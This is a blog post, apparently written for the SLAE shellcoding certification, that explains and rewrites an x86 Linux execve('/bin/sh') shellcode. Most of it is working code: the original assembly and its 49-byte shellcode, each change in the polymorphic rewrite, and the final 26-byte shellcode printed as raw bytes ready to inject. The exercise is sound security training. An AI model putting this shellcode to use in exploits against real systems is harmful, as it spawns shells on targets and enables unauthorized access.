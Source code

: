 # Execve

[http://shell-storm.org/shellcode/files/shellcode-863.php](http://shell-storm.org/shellcode/files/shellcode-863.php)


# Disassembly

Here I have commented on the high level functionality of the shellcode.


```x86asm
global _start

section .text
global _start

section .text
_start:
    jmp short here

me:
    ; pop esi
    ; mov edi,esi
    pop edi

    xor eax,eax
    push eax    ; push 0x0    
    mov edx,esp
    
    push eax    ; push 0x0
    add esp,3   ; jump over edx
    ; lea esi,[esi +4]
    lea esi,[edi +4]    ; load string to stack "n/sh"
    xor eax,[esi]
    push eax    
    xor eax,eax
    xor eax,[edi]   ; load string to stack "//bi"
    push eax
    mov ebx,esp 

    xor eax,eax     ; again push "//bin/sh" to stack, load into ecx for argument
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb      ; execve()
    int 0x80

here:
    call me
    path db "//bin/sh"

```

Shellcode (length: 49 bytes)

```c
"\xeb\x23\x5f\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x77\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd8\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73"
```


# Changes

First, I remove the jmp, call, pop technique instructions that gets a pointer to the string "//bin/sh" as I will be pushing it to the stack later. 

I then push the string to the stack with the following instructions instead of moving the data as the original shellcode did using `lea`.

The commented code is what was removed from the original and replaced with my instructions.

```x86asm
; push eax            ; load "//bin/sh" to stack
; add esp,3
; lea esi,[esi +4]
; xor eax,[esi]
; push eax
; xor eax,eax
; xor eax,[edi]
; push eax
; mov ebx,esp 
push eax
push 0x68732f6e         ; "hs/n"
push 0x69622f2f         ; "ib//"
mov ebx, esp
```

Next, I also change the way the second argument is loaded onto the stack by leveraging the ebx pointer to the string "//bin/sh". To do this, I just push a null `eax` which doesn't have to be `xor`'d since it was not touched in my previous instructions. Then push the pointer to "//bin/sh" that is currently in `ebx` and move this pointer to `ecx`.
```x86asm
; xor eax,eax
; push eax
; lea edi,[ebx]
; push edi
; mov ecx,esp
push eax
push ebx
mov ecx, esp
```



# Completed Shellcode

```x86asm
global _start

section .text
_start:
    ; jmp short here

me:
    ; pop esi
    ; mov edi,esi
    
    xor eax,eax     ; push ptr to 0x0 to stack for edx argument 
    push eax
    mov edx,esp    

    ; push eax            ; load "//bin/sh" to stack
    ; add esp,3
    ; lea esi,[esi +4]
    ; xor eax,[esi]
    ; push eax
    ; xor eax,eax
    ; xor eax,[edi]
    ; push eax
    ; mov ebx,esp 
    push eax
    push 0x68732f6e         ; "hs/n"
    push 0x69622f2f         ; "ib//"
    mov ebx, esp


    ; xor eax,eax
    ; push eax
    ; lea edi,[ebx]
    ; push edi
    ; mov ecx,esp
    push eax
    push ebx
    mov ecx, esp


    mov al,0xb      ; execve()
    int 0x80

; here:
;     call me
;     path db "//bin/sh"
```

New Shellcode (Length: 26)

```c
"\x31\xc0\x50\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

